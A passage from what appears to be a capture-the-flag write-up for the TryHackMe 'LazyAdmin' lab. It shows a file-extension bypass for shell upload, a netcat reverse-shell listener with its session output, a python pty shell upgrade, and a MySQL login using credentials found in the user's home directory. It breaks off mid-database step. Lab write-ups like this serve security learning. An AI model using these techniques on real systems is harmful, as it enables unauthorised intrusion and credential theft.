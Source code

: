 ----------------------------

# Exploitation 
## Shell Upload
In the media centre we get an area we can upload files. There is some file extension checking here but we can get past with a .phtml file. 

![Shell Upload](/post_images/lazyadmin/shell-upload.png)

With a netcat port listening, we can simply click on the file and perform the exploit.

    └─$ nc -lvnp 1234               
    listening on [any] 1234 ...
    connect to [my-ip] from (UNKNOWN) [ip] 59624
    Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
     17:16:39 up 26 min,  0 users,  load average: 0.00, 0.02, 0.25
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ 

We should first upgrade the shell using python:

    $ python -c 'import pty; pty.spawn("/bin/bash")'
    www-data@THM-Chal:/$ 

---------------------------

## User Flag
The user flag is then in the home directory of username: itguy

    www-data@THM-Chal:/$ cd /home
    www-data@THM-Chal:/home$ ls
    itguy
    www-data@THM-Chal:/home$ cd itguy
    www-data@THM-Chal:/home/itguy$ ls
    Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
    Documents  Music      Public    Videos     examples.desktop  user.txt

-------------------------------

# Internal Reconnaissance
## Database 
The database credentials are listed again within mysql_login.txt in itguy's home directory. So my first though was to check this database for anything useful. 

    www-data@THM-Chal:/home/itguy$ mysql -u rice -p
    mysql -u rice -p
    Enter password: randompass
    